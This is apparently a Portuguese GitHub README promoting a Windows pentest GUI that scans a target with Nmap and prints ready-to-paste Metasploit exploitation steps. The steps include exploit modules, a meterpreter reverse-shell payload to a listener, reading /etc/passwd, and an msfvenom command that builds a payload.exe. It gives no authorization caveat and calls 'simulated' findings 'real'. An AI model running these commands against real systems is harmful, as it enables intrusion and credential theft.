 O VASQUES-SCAN AI é uma ferramenta desktop para Windows que automatiza as etapas iniciais de um teste de penetração e gera comandos reais do Metasploit para exploração imediata.

✔️ Interface gráfica estilo “Matrix” (preto + verde) — feita em Python + Tkinter.
✔️ Scan de portas (Nmap), coleta de Intel (Geolocalização), detecção de vulnerabilidades simuladas.
✔️ BOTÃO “EXPLOITAR COM METASPLOIT” — gera comandos prontos para copiar e colar no seu terminal.
✔️ Gera relatório profissional em PDF.
✔️ 100% OFFLINE — não depende de internet, IA ou APIs externas.
✔️ EXECUTÁVEL .EXE — roda em qualquer Windows sem instalar Python.
🛠️ PRÉ-REQUISITOS
Windows 7, 8, 10 ou 11 (64-bit recomendado).
Nmap instalado (para varredura de portas): Download Nmap
Metasploit Framework (para executar os comandos gerados): Download Metasploit
💡 Dica: Use o Kali Linux no VirtualBox — ele já vem com Nmap e Metasploit pré-instalados. 

▶️ COMO USAR
Baixe o executável → VASQUES-SCAN-AI.exe (pasta /desktop).
Clique duas vezes para executar (não precisa de instalação).
Digite um IP (ex: 192.168.0.1 ou scanme.nmap.org).
Clique nos botões:
“Scan Portas” → Varre o alvo e lista serviços.
“Coletar Intel” → Mostra país, cidade, ISP.
“Detectar Vulns” → Simula vulnerabilidades baseadas nos serviços encontrados.
“Exploitar com Metasploit” → GERA COMANDOS REAIS para exploração no Metasploit!
“Gerar Relatório” → Salva tudo em PDF.
📥 DOWNLOAD DIRETO
👉 Baixe o executável para Windows (VASQUES-SCAN-AI.exe)

🧩 EXEMPLO DE SAÍDA — “EXPLOITAR COM METASPLOIT”

[✅ METASPLOIT EXPLOITATION GUIDE — VERSÃO DESKTOP]

⚠️ PASSO 1: ABRA O TERMINAL E INICIE O METASPLOIT
   → msfconsole

⚠️ PASSO 2: ESCOLHA UM EXPLOIT BASEADO NO SCAN
   → use exploit/unix/ftp/vsftpd_234_backdoor
   → use exploit/multi/http/apache_normalize_path_rce
   → use auxiliary/scanner/ssh/ssh_login

⚠️ PASSO 3: DEFINA O ALVO (RHOSTS)
   → set RHOSTS 192.168.0.100

⚠️ PASSO 4: DEFINA O PAYLOAD (se aplicável)
   → set payload linux/x86/meterpreter/reverse_tcp
   → set LHOST SEU_IP_LOCAL
   → set LPORT 4444

⚠️ PASSO 5: EXECUTE O EXPLOIT
   → exploit

⚠️ PASSO 6: INTERAJA COM A SHELL
   → shell → whoami → id → cat /etc/passwd

[✔️] Exploitation concluída com sucesso. Para gerar payloads customizados, use 'msfvenom'.

📌 EXEMPLO DE PAYLOAD:
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=SEU_IP LPORT=4444 -f exe -o payload.exe

📢 AUTOR
Dr. Vasques
Criador de soluções em Cybersecurity & Automação
LinkedIn: https://www.linkedin.com/in/davi-vasques-516bab121/
GitHub: @hackerdmv


